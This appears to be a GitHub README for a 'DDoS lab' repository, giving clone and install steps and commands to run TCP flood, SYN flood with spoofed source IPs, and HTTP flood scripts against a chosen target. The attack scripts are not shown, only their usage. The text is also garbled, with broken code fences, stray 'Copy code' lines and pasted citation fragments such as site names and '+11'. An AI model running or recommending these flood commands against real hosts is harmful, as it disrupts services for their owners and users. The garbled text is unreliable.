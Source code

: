 ```
git clone https://github.com/Mrglitchoffical/Ddos_Lab-2.git
```

```
cd Ddos_Lab-2

apt install python -y```

```pip install -r requirements.txt ```

## Attacks

### TCP Flood
```bash
cd attack
python3 tcp_flood.py 192.168.0.100 80 200 0.01
```

### SYN Flood
```bash
Copy code
python3 syn_flood.py -t Your Link
```
50 k SYN packets with random spoofed IPs 
fr.wikipedia.org
tekleo.net
+11
thepythoncode.com
+11
cloudflare.com
+11
.

### HTTP Flood
bash
``` Copy code
python3 http_flood.py http://192.168.0.100 100 60
```
